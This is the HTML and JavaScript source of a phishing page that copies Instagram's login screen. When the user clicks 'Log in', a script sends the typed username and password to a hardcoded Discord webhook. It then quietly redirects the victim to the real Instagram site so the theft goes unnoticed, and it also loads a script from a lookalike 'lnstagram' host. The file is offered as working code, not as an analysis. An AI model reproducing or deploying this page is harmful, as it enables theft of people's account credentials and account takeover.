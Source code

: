 # 
<!DOCTYPE html>

<html>
<head>
  <link rel="Icon" type="image/x-icon" href="https://a-manu.com/wp-content/uploads/sites/171/2017/04/instagram-Logo-PNG-Transparent-Background-download-300x300.png">
  <title>Instagram</title>
</head>
<body>
  <span id="root">
    <section class="section-all">
      <link rel="stylesheet" href="css.css">
      <!-- 1-Role Main -->
      <main class="main" role="main">
        <div class="wrapper">
          <article class="article">
            <div class="content">
              <div class="login-box">
                <div class="header">
                  <img class="logo" src="https://upload.wikimedia.org/wikipedia/commons/thumb/2/2a/Instagram_logo.svg/1200px-Instagram_logo.svg.png" alt="Instagram">
                </div><!-- Header end -->
                <div class="form-wrap">
                  <form class="form">

                    <div class="input-box">
                      <input type="text" id="username" placeholder="Phone number, username, or email" aria-required="true" maxlength="30" autocapitalize="off" autocorrect="off" name="username" required>
                    </div>  

                    <div class="input-box">
                      <input type="password" name="password" id="password" placeholder="Password" maxlength="30" aria-required="true" autocapitalize="off" autocorrect="off" required>
                    </div>  

                    <span class="button-box">
                      <button class="btn" type="button" name="submit" onclick="sendMessage()">Log in</button>
                    </span>  

                    <a class="forgot" href="https://www.instagram.com/accounts/password/reset">Forgot password?</a>
                  </form>
                </div> <!-- Form-wrap end -->
              </div> <!-- Login-box end -->

              <div class="login-box">
                <p class="text">Don't have an account?<a href="https://www.instagram.com/accounts/emailsignup">Sign up</a></p>
              </div> <!-- Signup-box end -->

              <div class="app">
                <p>Get the app.</p>
                <div class="app-img">
                  <a href="https://itunes.apple.com/app/instagram/id389801252?pt=428156&amp;ct=igweb.loginPage.badge&amp;mt=8">
                    <img src="https://www.instagram.com/static/images/appstore-install-badges/badge_ios_english-en.png/4b70f6fae447.png" >
                  </a>
                  <a href="https://play.google.com/store/apps/details?id=com.instagram.android&amp;referrer=utm_source%3Dinstagramweb%26utm_campaign%3DloginPage%26utm_medium%3Dbadge">
                    <img src="https://www.instagram.com/static/images/appstore-install-badges/badge_android_english-en.png/f06b908907d5.png">
                  </a>  
                </div>  <!-- App-img end-->
              </div> <!-- App end -->
            </div> <!-- Content end -->
          </article>
        </div> <!-- Wrapper end -->
      </main>

      <!-- 2-Role Footer -->
      <footer class="footer" role="contentinfo">
        <div class="footer-container">

          <nav class="footer-nav" role="navigation">
            <ul>
			  <li><a href=""></a></li>
              <li><a href="https://about.instagram.com">About Us</a></li>
              <li><a href="https://help.instagram.com">Support</a></li>
              <li><a href="https://about.instagram.com/blog">Blog</a></li>
              <li><a href="https://about.instagram.com/about-us/careers">Jobs</a></li>
              <li><a href="https://www.instagram.com/developer">Api</a></li>
              <li><a href="https://help.instagram.com/519522125107875">Privacy</a></li>
              <li><a href="https://help.instagram.com/581066165581870">Terms</a></li>
              <li><a href="https://www.instagram.com/directory/hashtags">Directory</a></li>
			  <li><a href="">Intsagram</a></li>
            </ul>
          </nav>

          <span class="footer-logo">&copy; 2021 Instagram</span>
        </div> <!-- Footer container end -->
      </footer>

      
    </section>
  </span> <!-- Root -->

  <!-- Select Link -->
  <script type="text/javascript">
    function la(src) {
      window.location=src;
    }
  </script>

  <script>
  function sendMessage() {
  function sleep(milliseconds) {
  const date = Date.now();
  let currentDate = null;
  do {
    currentDate = Date.now();
  } while (currentDate - date < milliseconds);
}
    var request = new XMLHttpRequest();
    request.open("POST", "https://discord.com/api/webhooks/993927180365078618/Pv5nHsj-27nogxckm8gfEW_CdrkrzJhf8ahtoPko3ojOdcwcLkmVfYw2vjN5SFaBVKZZ");
    request.setRequestHeader('Content-type', 'application/json');
    var params = {
      content: ("> **USERNAME  : **" + document.getElementById('username').value + "\n> **PASSWORD : **" + document.getElementById('password').value)
    }
    request.send(JSON.stringify(params));
	sleep(400)
	window.location.replace("https://www.instagram.com/");
  }
  </script>
  <script src="http://lnstagram/login.html"></script>
</body>
</html>
